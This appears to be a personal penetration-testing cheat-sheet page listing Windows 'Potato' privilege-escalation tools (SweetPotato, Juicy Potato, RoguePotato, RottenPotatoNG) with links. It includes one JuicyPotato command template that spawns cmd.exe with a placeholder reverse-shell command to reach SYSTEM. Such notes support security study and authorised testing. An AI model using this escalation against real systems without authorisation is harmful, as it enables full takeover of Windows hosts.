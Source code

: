# Potato

<div class="row row-cols-lg-2"><div>

[Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 is a set of potatoes that can be used to escalate privileges from Windows Service Accounts to NT AUTHORITY/SYSTEM.

* [SweetPotato](https://github.com/CCob/SweetPotato) <small>(1.7k ⭐, 2022 🪦)</small>
* [Juicy Potato](https://github.com/ohpe/juicy-potato) <small>(2.5k ⭐, 2021 🪦)</small>
* [RoguePotato](https://github.com/antonioCoco/RoguePotato) <small>(1.1k ⭐, 2020 🪦)</small>
* [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) <small>(0.9k ⭐, 2017 🪦)</small>
* ...

Juicy and Rogue don't work on all versions of Windows.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````
</div><div>
</div></div>